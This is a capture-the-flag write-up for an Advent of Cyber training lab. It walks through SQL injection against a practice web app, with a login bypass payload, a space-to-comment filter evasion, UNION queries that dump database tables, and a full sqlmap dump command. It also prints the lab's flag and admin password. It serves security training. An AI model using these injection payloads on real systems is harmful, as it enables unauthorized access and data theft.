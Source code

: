 # Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text about suggested) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

We can assume the SQL query looks something like this:
```sql
SELECT username,password FROM users WHERE username='?' and password = '?'
```
The user input goes where there are `?`

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

So the sql query would look something like this
```sql
SELECT username,password FROM users WHERE username='' or 1=1 --' and password = ''
```
- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website:

First I Tried to assume how the query looks like:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '?'
```

and so we can try 
```
' ORDER BY 1,2,3 --
```

and the query will look like this
```sql
SELECT gift,kid FROM table WHERE kid LIKE '' ORDER BY 1,2,3 --'
```
And I got a lovely error message telling me:
*3rd ORDER BY term out of range - should be between 1 and 2*
so I know there's only 2 columns.
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this handy cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```

And so the query would look something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --'
```
- Note: the `@` is not necessary but for a cleaner output I put a charecter that is not in the gifts database.

And got this:

![Table names](./screenshots/table_names.png)

so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

so with a simple sql query I could see the contents of hidden_table:
```
@' UNION SELECT flag,1 FROM hidden_table --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT flag,1 FROM hidden_table --'
```

![Flag](./screenshots/flag.png)

And so the flag is: `thmfox{All_I_Want_for_Christmas_Is_You}`

## Question 6
*What is admin's password?*

Same as before I will look at the `users` table, like a so:
```
@' UNION SELECT username,password FROM users --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT username,password FROM users --'
```
And I get just a single entry which is the admin's password:

![Admin password](./screenshots/admin_password.png)

And finaly the admin password is: `EhCNSWzzFP6sc7gB`
